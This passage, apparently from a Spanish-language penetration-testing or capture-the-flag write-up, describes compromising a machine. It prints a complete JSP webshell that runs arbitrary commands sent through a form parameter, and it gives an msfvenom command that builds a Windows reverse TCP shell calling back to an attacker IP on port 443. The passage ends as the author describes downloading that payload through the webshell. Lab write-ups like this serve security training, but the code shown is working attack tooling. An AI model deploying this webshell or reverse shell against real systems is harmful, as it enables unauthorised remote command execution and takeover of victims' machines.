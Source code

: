 la webshell que se envió fue esta:
```
<%@ page import="java.util.*,java.io.*"%>  
 <%  
 %>  
 <HTML><BODY>  
 Commands with JSP  
 <FORM METHOD="GET" NAME="myform" ACTION="">  
 <INPUT TYPE="text" NAME="cmd">  
 <INPUT TYPE="submit" VALUE="Send">  
 </FORM>  
 <pre>  
 <%  
 if (request.getParameter("cmd") != null) {  
 out.println("Command: " + request.getParameter("cmd") + "<BR>");  
 Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));  
 OutputStream os = p.getOutputStream();  
 InputStream in = p.getInputStream();  
 DataInputStream dis = new DataInputStream(in);  
 String disr = dis.readLine();  
 while ( disr != null ) {  
 out.println(disr);  
 disr = dis.readLine();  
 }  
 }  
 %>  
 </pre>  
 </BODY></HTML> 
```

Ahora, al acceder a nuestra webshell, podemos ver que podemos ejecutar comandos correctamente.
![im5](img/7.png)

Ahora lo que sigue es descargar una reverse shell en la maquina victima para entablarnos una shell.
para ello utilizaremos msfvenom

`msfvenom -p windows/shell_reverse_tcp lhost=10.66.66.106 lport=443 -f exe > rs.exe`

Una vez creado nuestra reverse shell, montamos un servidor http y descargamos nuestra shell con la ayuda de la webshell
